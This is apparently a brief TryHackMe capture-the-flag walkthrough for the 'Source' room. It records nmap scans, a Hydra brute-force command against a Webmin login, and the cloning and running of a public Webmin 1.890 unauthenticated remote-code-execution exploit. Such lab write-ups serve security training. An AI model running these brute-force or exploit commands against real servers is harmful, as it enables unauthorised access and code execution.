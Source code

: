 # source

**Room Link:** [https://tryhackme.com/room/source](https://tryhackme.com/room/source)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/10000 - HTTP

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Tried to bruteforce the admin password but it blocked my IP after so many attempts, this is clearly not the intended route.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -S -l admin -s 10000 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ip-10-10-221-100.eu-west-1.compute.internal http-post-form "/session_login.cgi:user=^USER^&pass=^PASS^:F=Warning!" -V
```





**Kali**

```
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git
cd WebMin-1.890-Exploit-unauthorized-RCE/
python webmin-1.890_exploit.py  ip-10-10-221-100.eu-west-1.compute.internal 10000 id
```

<figure><img src="../../.gitbook/assets/image (14) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

I tried to get a full shell but nothing worked, there was a metasploit exploit which I could do for that but I didn't want to.

















































